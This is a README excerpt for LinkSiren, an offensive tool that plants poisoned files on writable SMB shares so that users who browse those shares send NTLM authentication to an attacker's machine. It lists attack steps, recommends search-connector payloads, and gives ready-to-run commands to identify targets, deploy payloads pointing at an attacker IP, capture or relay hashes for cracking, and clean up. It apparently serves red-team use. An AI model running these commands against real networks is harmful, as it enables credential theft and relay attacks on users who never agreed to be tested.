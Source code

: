 ```
                        Path to a text file containing UNC paths to folders in which poisoned files are located.
  -a ATTACKER, --attacker ATTACKER
                        Attacker IP or hostname to place in poisoned files.
```

## Attack Overview
1. (Optional) Get Intranet-Zoned if you want to coerce HTTP authentication. See the note in [theHackerRecipes WebClient Abuse](https://www.thehacker.recipes/a-d/movement/mitm-and-coerced-authentications/webclient#abuse).
2. Create a list of UNC paths to writeable SMB shares.
    - Note: Make sure you can delete files in them for cleanup.
3. [Optional] Run LinkSiren in `generate` mode to write templates locally
4. [Optional] Run LinkSiren in `rank` mode to output rankings for accessible folders based on recent access.
5. Run LinkSiren in `identify` mode to find the best places to put poisoned files.
6. Start a listener or relay on your attacker machine to capture and/or relay coerced authentication.
7. Run LinkSiren in `deploy` mode to place payloads in the optimal locations identified.
8. Let the hashes roll in. Relay and/or crack as desired.
9. Run LinkSiren in `cleanup` mode to delete all the poisoned files.

## What Payload Type Should I Use?
Search Connectors (.searchConnector-ms): This is generally the best option. They require the least amount of interaction, start the WebClient service from a stopped state automatically, and are capable of coercing both SMB and HTTP authentication using a single file.

## How do I use this NOW?
```bash
# Setup
git clone https://github.com/gjhami/LinkSiren.git && cd LinkSiren
python -m pip install -r requirements.txt

# Identify optimal locations for poisoned file deployment
linksiren identify --username <username> --password <password> --domain <domain.tld> --targets <shares file>

# Deploy to identified locations
linksiren deploy --username <username> --password <password> --domain <domain.tld> --targets folder_targets.txt --attacker <attacker IP>

# Capture hashes / relay authentication

# Cleanup poisoned files
linksiren cleanup --username <username> --password <password> --domain <domain.tld> --targets payloads_written.txt
```

## How do I use this the \~right\~ way?
```bash
# Get the project
git clone https://github.com/gjhami/LinkSiren.git
cd LinkSiren

# Set up a virtual environment and install requirements
python -m venv .venv
source ./.venv/bin/activate # Linux
# .\.venv\Scripts\activate # Windows
python -m pip install -r requirements.txt

```